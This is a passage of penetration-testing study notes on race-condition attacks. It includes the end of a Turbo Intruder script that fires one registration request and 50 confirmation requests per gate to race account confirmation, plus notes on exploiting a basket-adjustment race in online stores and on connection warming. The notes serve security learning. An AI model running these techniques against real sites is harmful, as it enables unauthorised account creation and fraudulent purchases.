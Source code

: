 ```python
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Dnt: 1
Sec-Gpc: 1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
'''
    
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'User' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confReq, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)


def handleResponse(req, interesting):
    table.add(req)
```

## Multi-endpoint race conditions
sending requests to multiple endpoints at the same time 

**EX:**


classic logic flaw in online stores where you add an item to your basket or cart, pay for it, then add more items to the cart before force-browsing to the order confirmation page. 

![race-conditions-basket-adjustment-race](https://github.com/kiro6/penetration-testing-notes/assets/57776872/ca6050dd-4a6a-4a2c-99f3-b5943b9ff1a4)

In this case, you can potentially add more items to your basket during the race window between when the payment is validated and when the order is finally confirmed. 

#### Aligning multi-endpoint race windows Problems and Solutions

- **Delays introduced by network architecture**
```
Connection warming:

Back-end connection delays don't usually interfere with race condition attacks because they typically delay parallel requests equally, so the requests stay in sync.

you can try adding a GET request for the homepage to the start of your tab group with to ohter endpoints to test , then using the Send group in sequence (single connection) option. 

If the first request still has a longer processing time, but the rest of the requests are now processed within a short window
```

